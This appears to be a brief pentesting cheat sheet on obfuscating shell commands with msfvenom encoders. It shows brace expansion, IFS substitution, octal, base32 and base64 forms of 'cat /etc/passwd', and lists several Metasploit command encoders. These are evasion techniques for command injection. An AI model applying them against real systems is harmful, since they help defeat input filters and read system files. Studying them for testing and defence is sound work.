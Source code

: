 # Bash

## Brace Expansion

```
$ msfvenom -p cmd/unix/generic cmd="cat /etc/passwd" -e cmd/brace
```

```
$ {cat,/etc/passwd}
```

## Internal Field Separator

```
$ msfvenom -p cmd/unix/generic cmd="cat /etc/passwd" -e cmd/ifs
```

```
$ cat${IFS}/etc/passwd
```

## Octal

```
msfvenom -p cmd/unix/generic cmd="cat /etc/passwd" -f octal
```

## Encoding Scheme

### Base32

```
$ msfvenom -p cmd/unix/generic cmd="cat /etc/passwd" -f base32
```

### Base64

```
$ msfvenom -p cmd/unix/generic cmd="cat /etc/passwd" -f base64
```

```
cmd/echo                      good       Echo Command Encoder
cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
cmd/perl                      normal     Perl Command Encoder
```